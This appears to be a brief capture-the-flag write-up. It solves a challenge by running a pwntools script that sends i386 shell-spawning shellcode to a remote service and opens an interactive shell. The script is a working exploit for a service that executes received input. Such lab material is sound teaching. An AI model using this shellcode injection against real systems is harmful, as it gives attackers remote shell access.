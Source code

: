 # Solution

1. Need to do some form of socket programming. Following code requires pwntools to be installed:
```py
from pwn import *

context.update(arch='i386',os='linux')

server_ip = "localhost" #change this to the server IP address hosting the binary.
con = remote(server_ip,7730)
data = asm(shellcraft.sh())
con.sendline(data)

con.interactive()
```